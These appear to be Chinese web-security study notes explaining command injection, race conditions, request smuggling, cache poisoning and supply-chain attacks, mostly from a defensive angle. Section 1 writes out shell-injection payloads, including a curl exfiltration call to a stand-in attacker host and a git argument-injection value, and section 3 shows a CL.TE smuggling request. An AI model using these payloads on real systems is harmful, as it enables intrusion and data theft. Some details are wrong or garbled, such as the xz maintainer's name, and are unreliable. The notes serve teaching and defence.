

# 命令注入、竞态条件与其他后端漏洞详解

- 日期：2026-11-04
- 所属大纲阶段：第 3 阶段 Web 安全（涉及第 5 阶段网络防御与第 6 阶段安全工程）
- 参考资料：OWASP Command Injection Cheat Sheet、PortSwigger Academy（Race conditions / HTTP request smuggling / Web cache poisoning）、James Kettle《HTTP/2 Single-Packet Attack》(2023) 与《HTTP Desync Attacks》(2019)、xz 后门复盘文（2024）、SLSA 框架文档
- 前置阅读：[02-Web后端常见漏洞与攻击](02-Web后端常见漏洞与攻击.md)
- 说明：所有演示仅限本地靶场。

---

## 1. 命令注入（OS Command Injection）详解

### 1.1 Shell 语法：为什么拼接必被注入

用户输入进入 `sh -c "ping -c 1 <INPUT>"` 后，shell 按**自己的语法**解析整串——以下元字符都在「拼接点」生效：

```
;      命令分隔          127.0.0.1; whoami
&& / || 条件连接          127.0.0.1 && whoami   （成功才执行）
`cmd`   反引号替换        `whoami`
$(cmd)  命令替换          $(whoami)
\n / %0a 换行            127.0.0.1%0awhoami
|      管道              127.0.0.1 | id
```
盲命令注入验证（无回显时）：时间延迟 `; sleep 5`、外带 `; curl http://attacker.example/$(whoami)`、DNS 外带 `; nslookup $(whoami).oast.example`。

### 1.2 各语言 API 风险对照（审计速查）

| 调用方式 | 风险 | 说明 |
|---|---|---|
| `os.system(f"ping {ip}")` | 高危 | 恒走 shell |
| `os.popen` / `subprocess.run(cmd, shell=True)` | 高危 | shell=True 且字符串参数 |
| `subprocess.run(["ping","-c","1",ip], shell=False)` | 安全 | 数组参数，无 shell 解析 |
| PHP `system()/exec()/shell_exec()` | 高危 | `escapeshellarg()` 只能缓解不能根治 |
| Java `Runtime.exec("ping " + ip)` | 中 | exec 数组形式不做 shell 解析（但字符串单参数在 *nix 会按空格分词，Windows 走 cmd） |
| Go `exec.Command("ping", ip)` | 安全 | 天生数组参数；`sh -c` 拼接时危险 |
| Node `child_process.exec(cmd)` | 高危 | 走 shell；`execFile` 安全 |

### 1.3 参数注入（Argument Injection）——更隐蔽的近亲

不注入命令、只注入**参数**（无 shell 也可利用）：目标调用 `git clone <url>`，攻击者传 `--upload-pack=sh -c<whoami`（历史 git 相关漏洞家族）；`curl -o /etc/cron.d/x url`。防御：参数数组前加 `--`（POSIX 约定，表示后续全是数据不是选项）+ 白名单。

### 1.4 防御

1. 首选**库替代命令**：域名查解析用 socket 库、文件操作用 fs、压缩用 zlib——能不调进程就不调。
2. 必须进程时：数组参数 + `shell=False`；输入白名单（IP 用 `ipaddress.ip_address()` 校验，枚举选项映射）。
3. 必须拼 shell（极少见的遗留场景）：`shlex.quote()`（Python）/ escapeshellarg（PHP）逐个转义 + 独立最小权限账号 + 容器隔离。
4. 审计搜索：`os.system`、`popen`、`shell=True`、`exec(`、`Runtime.getRuntime`、`child_process.exec`、模板里的模板引擎表达式（SSTI 往往通向命令执行）。

---

## 2. 竞态条件（Race Condition）详解

### 2.1 TOCTOU 模型

**Time-Of-Check 到 Time-Of-Use 之间的窗口**被并发利用：



### 2.2 Web 场景案例库

| 场景 | 缺陷 | 危害 |
|---|---|---|
| 余额提现/转账 | 检查与扣减分离 | 双花 |
| 一次性优惠码/兑换码 | 「先查已用标记再置位」不原子 | 同码多次兑换 |
| 限量抢购/秒杀 | 库存读取与扣减分离 | 超卖 |
| 首次注册奖励 | 「查是否存在再创建」窗口 | 批量注册套利 |
| 限速器 | 计数器读改写非原子 | 绕过限速爆破密码 |
| 关注/点赞数 | 缓存计数回写竞态 | 数据错乱 |
| 文件上传（删除窗口） | 见 08 篇 2.5 | WebShell 落地 |

### 2.3 现代利用技术：为什么「并发发请求」以前难现在易

- 传统多线程发包受**网络抖动与请求排队**影响，难以真正同刻到达；
- **HTTP/2 单包攻击（single-packet attack, Kettle 2023）**：HTTP/2 允许一个 TCP 包携带多个流（请求），20–50 个请求同一数据包到达即「同时」，窗口命中率极大提高。工具：Turbo Intruder 的 `race-the-server.py` 模板。
- 经典 HTTP/1.1 时代技巧：最后字节延迟发送（last-byte sync）。

### 2.4 防御模式（按可靠性排序）

```python
# ① 数据库原子操作（首选——把检查与使用合并成一条不可分的语句）
rows = db.execute(
  "UPDATE wallet SET balance = balance - :amt WHERE id = :id AND balance >= :amt",
  {"amt": 80, "id": uid})
if rows.rowcount == 0: abort(400)          # 受影响行数为 0 → 余额不足

# ② 唯一约束（一码一用天然免疫竞态）
coupon_user UNIQUE(coupon_id, user_id)     # 重复兑换直接 IntegrityError

# ③ 事务 + 行级锁（复杂业务逻辑时）
BEGIN; SELECT ... FOR UPDATE; ...校验与计算...; COMMIT;

# ④ 幂等键（防重复提交，客户端生成唯一请求 ID，服务端去重表）
```
分布式锁（Redis SETNX）排在最后：锁过期/失效场景复杂，能用数据库约束就不要用锁。**原则：让「不可能的状态」在存储层就不可能，而不是靠代码顺序保证。**

---

## 3. HTTP 请求走私（Request Smuggling）详解

### 3.1 原理

前置代理（LB/WAF/CDN）与后端服务器对报文边界的判定不一致：
- `Content-Length`（CL）：按字节数定界；
- `Transfer-Encoding: chunked`（TE）：按 chunk 终止符定界。
两者同时存在/被差异化处理时，下一个请求的「起点」出现分歧：

| 类型 | 前端 | 后端 | 效果 |
|---|---|---|---|
| CL.TE | 用 CL | 用 TE | 后端把残余当新请求开头 |
| TE.CL | 用 TE | 用 CL | 前端 chunk 结束早于 CL，剩余字节走私 |
| TE.TE（混淆头） | 双方解析被诱导不同 | | 绕过差异检测 |

```
POST / HTTP/1.1
Content-Length: 6
Transfer-Encoding: chunked

0

G
```
前端按 CL 认为 6 字节结束；后端按 chunked 读到 `0\r\n\r\n` 结束，`G` 留在缓冲区——**拼接进下一个受害用户的请求**。

### 3.2 危害

- 绕过 WAF（走私的请求不经过检查路径）；
- 劫持他人会话（受害者请求拼上攻击前缀，响应错位给攻击者）；
- 缓存投毒 / 缓存欺骗；
- HTTP/2 独有变体：H2.CL / H2.TE（协议降级处）与 CRLF 注入。

### 3.3 检测与防御

- 检测：时延差异探测（畸形 chunk 让后端等待）、差异响应比对；Burp 的 HTTP Request Smuggler 插件。**注意：在生产环境测试走私有干扰其他用户流量的风险，应在预发/授权环境做。**
- 防御：前后端服务器配置规范统一；拒绝同时含 CL 与 TE 的请求（规范要求 TE 优先并移除 CL——严格实现）；禁用后端连接复用（治标）；升级 HTTP/2 全链路减少转换层。

---

## 4. Host 头注入与 Web 缓存投毒（简讲）

### 4.1 Host 头注入

HTTP/1.1 强制 Host 头，但代理常把它透传。服务端用 Host 拼绝对 URL 的场景：

- **密码重置投毒**（经典）：`POST /reset`（Host: attacker.example）→ 邮件里链接 `https://attacker.example/reset?token=...` → 受害者点击，token 落入攻击者。修复：重置链接的域名从配置读取，绝不信任请求头。
- 缓存键污染、开放重定向、SSRF 目标构造。

### 4.2 Web 缓存投毒

服务器把「带攻击者可控头（如 `X-Forwarded-Host`）计算出的响应」缓存，后续正常用户命中被投毒的缓存。核心思路：**找 unkeyed input（不进缓存键但影响响应的输入）**。防御：缓存键覆盖所有影响渲染的输入、`Vary` 头正确、不信任 `X-Forwarded-*` 类头。

---

## 5. 信息泄露面盘点

| 泄露面 | 内容 | 工具/检测 |
|---|---|---|
| `/.git/` 目录残留 | 全部源码+历史（内网地址、密钥） | GitHack / git-dumper（防御方巡检自查用） |
| 报错堆栈直出 | 框架版本、SQL、绝对路径 | fuzz 触发异常看响应 |
| Swagger/OpenAPI、Druid、Actuator 暴露 | 全部接口与参数、内部监控 | 路径字典扫描 |
| 目录列表开启 | 目录结构 | 访问 /uploads/ |
| 前端 bundle | sourcemap、API key、注释 | Sourcemap 提取（见 01 篇） |
| 响应头 | Server/X-Powered-By 版本 | curl -I |
| 邮箱/用户枚举 | 登录/找回密码响应差异（「用户不存在」） | 双账号对比响应 |
| 时序侧信道 | 密码校验耗时差异 | 时间统计对比 |

---

## 6. 依赖与供应链攻击详解

### 6.1 案例研究：xz-utils 后门（CVE-2024-3094, 2024.03）

- 投入路径（社会工程时间线）：攻击者（"Jia Tan"）2021 年起以高质量贡献者身份参与 xz 社区 → 两年获得维护者权限 → 原维护者（Burnt Sushi 声明离项目）交接 → 2024.02 在**构建脚本**（非 git 源码）中埋入后门：发布的 release 二进制里 liblzma 被 patched，篡改 systemd/sshd 的 RSA 验证函数——特定攻击者私钥可绕过认证登录任何打了该版本包的 Linux。
- 幸而被 PostgreSQL 工程师 Andres Freund 因 **sshd 性能异常（延迟 ~500ms）** 发现——性能监控立功。
- 教训：① 开源单人维护的核心组件是系统性风险；② 攻击面在构建/发布环节而非源码（git diff 看不到）；③ SLSA/可复现构建、二进制溯源（provenance）是对的方向；④ 行为异常监控仍然兜底有效。

### 6.2 包管理生态投毒类型

```
typosquatting        ：npm i express → reqeusts / colorss
starsquatting        ：仿冒项目名蹭 GitHub stars
dependency confusion ：内网私有包名被公共 registry 抢注（2021 Alex Birsan，Apple/MS 中招）
install 脚本投毒     ：postinstall 执行勒索/窃密（2024 年多个 npm 包事件）
账号劫持             ：维护者 token 泄露（2025 年 tj-actions/changed-files GitHub Actions 事件，
                      注入的 action 反dump CI 密码）
 protesting userland ：抗议性破坏（colors.js 无限循环、node-ipc 擦盘事件）
```

### 6.3 防御框架（工程落地）

1. **锁定与审查**：lockfile 必提交（package-lock.json/poetry.lock），部署用 `npm ci`/`pip install`（冻结安装）；PR 中 lockfile diff 纳入 review。
2. **私有 registry + 白名单代理**（Artifactory/verdaccio）+ 防依赖混淆：内部包名用 scope（`@company/x`）并在公共 registry 占位注册。
3. **漏洞与信誉扫描进 CI**：`npm audit` / `pip-audit` / OSV-Scanner / socket.dev（行为分析，看包是否发起网络请求/执行 install 脚本）。
4. **最小化 install 脚本**：`npm config set ignore-scripts true`（按需白名单放开）。
5. **SBOM**（CycloneDX/SPDX）生成与存档——出事件时 10 分钟内回答「我们哪里用了它」。
6. **SLSA 等级与 provenance 验证**：只装有构建来源证明的产物（sigstore/cosign 签名链）。
7. **CI/CD 专项**：GitHub Actions 权限最小化（workflow 默认 token 只读）、第三方 action 按 tag+digest 双锁定、自托管 runner 隔离、密钥不落日志。

---

## 7. 复习自查

- [ ] 能写出盲命令注入的三种验证方式并说明各自适用条件
- [ ] 能说出 `shell=False` 数组参数为什么安全、参数注入为什么仍可能发生
- [ ] 能用数据库原子 UPDATE + rowcount 修复双花并解释为什么比锁好
- [ ] 能画出 CL.TE 走私的报文示意并说明三种危害
- [ ] 能复述 xz 后门的完整时间线与三条教训
- [ ] 能为自己的项目列出供应链防御清单（锁定/代理/扫描/SBOM）

## 延伸实验（labs 计划）

1. PortSwigger Academy：Race conditions 全模块（含 single-packet attack 实操，Turbo Intruder）、HTTP request smuggling 基础模块。
2. 自建 demo：Flask 余额提现接口（有竞态版/原子 UPDATE 版），用 Turbo Intruder 或并发脚本对比成功率。
3. 自建 demo：Nginx + 后端 Go 服务器故意制造 CL.TE 差异（预发环境），观察请求错位。
4. 供应链自查：对个人项目跑 `pip-audit`/`npm audit` + 生成一份 CycloneDX SBOM。

---

## 附：ASCII 图 → Mermaid 替换清单

| 原 ASCII 图（小节 · 内容） | 替换后类型 |
| --- | --- |
| 归档笔记 ·「2.1 TOCTOU 模型」节 · 双请求并发竞态汇合图 | flowchart LR |
